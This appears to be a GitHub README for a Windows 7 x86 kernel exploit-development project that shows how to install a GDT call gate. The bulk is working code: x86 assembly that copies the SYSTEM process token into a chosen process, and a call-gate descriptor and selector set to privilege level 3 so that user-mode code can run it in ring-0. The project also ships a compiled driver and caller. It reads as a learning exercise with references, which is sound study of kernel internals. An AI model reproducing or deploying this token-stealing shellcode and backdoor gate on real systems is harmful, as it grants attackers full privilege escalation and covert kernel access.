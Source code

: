 # GDT CallGate. Kernel exploit development

## Задача - steal token from source process to target process

+ подготовить exploit и функцию для ring-0 callgate вызова (kernel-mode)

```C++
DWORD steal_token(DWORD TARGET_PID, DWORD SOURCE_PID)
{
 char res = 0;
#if defined(DEBUG)
 DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL, "CallGate - TARGET_PID: %d | SOURCE_PID: %d\n", TARGET_PID, SOURCE_PID);
#endif
 // TOKEN STEALER X86 ASM
 __asm
 {
 Start:
  pushad
   mov eax, fs : [KTHREAD_OFFSET]
   mov eax, [eax + EPROCESS_OFFSET]
   mov ecx, eax                            // Copy current _EPROCESS structure
   mov ebx, [eax + TOKEN_OFFSET]           // Copy current nt!_EPROCESS.Token
   mov edx, SOURCE_PID                     // Process PID = 0x4
   SearchSystemPID :
  mov eax, [eax + FLINK_OFFSET]    // Get nt!_EPROCESS.ActiveProcessLinks.Flink
   sub eax, FLINK_OFFSET
   cmp[eax + PID_OFFSET], edx              // Get nt!_EPROCESS.UniqueProcessId
   jne SearchSystemPID
   mov edx, [eax + TOKEN_OFFSET]           // Get SYSTEM process nt!_EPROCESS.Token
   mov esi, eax
   SearchProcessPID :
  mov ecx, eax
   mov edi, [eax + PID_OFFSET]
   mov eax, [eax + FLINK_OFFSET]   //ebx - Next _EPROCESS
   sub eax, FLINK_OFFSET
   cmp eax, esi
   jz Stop
   cmp edi, [TARGET_PID]
   jz SetToken
   jmp SearchProcessPID
   SetToken :
  mov[ecx + TOKEN_OFFSET], edx
   mov[res], 1
   Stop :
   popad
 }
 return res;
}

// INPUT STACK PARAMS:
//  SOURCE_PID  [esp+12]
// TARGET_PID  [esp+8]
// CS SELECTOR  [esp+4]
// RETADDR   [esp]
__declspec(naked) ULONG_PTR call_gate_proc() {
 __asm
 {
  // prolog
  push ebp
  mov ebp, esp

  push fs     // Save the value of FS
  mov ax, 0x30   // Set FS to kernel mode value
  mov fs, ax

  mov eax, [ebp + 16]  // SOURCE_PID
  push eax
  mov eax, [ebp + 12]  // TARGET_PID
  push eax 
  call steal_token

  pop fs     // Restore the value of FS

  // epilog
  mov esp, ebp
  pop ebp
  retf 8
 }
}
```

+ сформировать callgate descriptor с прямым вызовом exploit'а с параметрами из ring-0 в ring-3 (kernel-mode)

```C++
CALL_GATE_DESCRIPTOR build_call_gate_descriptor(PVOID entryPoint) {
 ULONG address = (ULONG)entryPoint;
 CALL_GATE_DESCRIPTOR callGateDescr = { 0 };

 callGateDescr.offset_00_15 = 0x0000ffff & address;    //Offset(specifies the procedure’s entry - point within its code - segment)
 address = address >> 16;
 callGateDescr.offset_16_31 = 0x0000ffff & address;    //Offset (specifies the procedure’s entry-point within its code-segment)
 callGateDescr.selector = 0x8;         //Code-selector (specifies memory-segment containing procedure code)
 callGateDescr.argCount = 0x2;         //Parameter count (specifies how many parameter-values will be copied)        
 callGateDescr.type = 0xC;          //Gate - Type('0x4' means a 16 - bit call - gate, '0xC' means a 32 - bit call - gate)
 callGateDescr.dpl = 0x3;          //DPL = Descriptor Privilege Level (ring-0, ring-1, ring-2, ring-3) 
 callGateDescr.pFlag = 0x1;          //P = present (1 = yes, 0 = no)

 //         P|DLP|S  type  zeros  params
 //callGateDescr(flags only) =    1110   1100  0000   0001b   <=> 0xec02

 return callGateDescr;
}
```

+ сформировать селектор по индексу callgate descriptor'а в GDT (kernel-mode)

```C++
  // create selector
  /*
   Selectors
   In real mode, the segment registers (CS, DS, ES, SS, FS, GS) specify a real mode segment. And you can put anything to them, no matter where it points. And you can read and write and execute from that segment. In protected mode, these registers are loaded with selectors.
   Selector
   Bit 0 - 1 : RPL
   Requested Protection Level. It must be equal or less privileged than the segments DPL.
   Bit 2 : TI
   If this bit is set to 1, the selector selects an entry from the LDT instead of the GDT (see below for LDT).
   Bits 3 - 15:
   Zero based index to the table (GDT or LDT).
  */
  selector = gdt_index << 3;
  selector |= 3;   // set TI = 0, RPL to 3 => allow access to this selector from ring-3
```

+ сделать вызов callgate selector'а из ring-3 (user-mode)

+ проверить смену token'а

## caller

+ содержит код программы вызова callgate selector'а из ring-3 (user-mode)

## callgate_driver

+ содержит код KMDF драйвера для работы в ring-0 (kernel-mode)

## bin

+ Caller.exe - compiled caller
+ CallGate.sys - compiled driver
+ CallGate.cer - test driver's sing public key

## Для проверки корректной работы использовались

+ ```Windows 7 SP1 x86 6.1.7601.24545```
+ ```Dbgview```
+ ```procexp```
+ ```OSR driver loader```

## Пример работы

![alt text](/img/callgate.gif)

## Ссылки

+ <https://rayanfam.com/topics/call-gates-ring-transitioning-in-ia-32-mode/>
+ <https://www.codeproject.com/Articles/45788/The-Real-Protected-Long-mode-assembly-tutorial-for>
+ <https://github.com/SinaKarvandi/IA32-CALL-GATES/tree/master>
+ <https://github.com/therealdreg/cgaty>
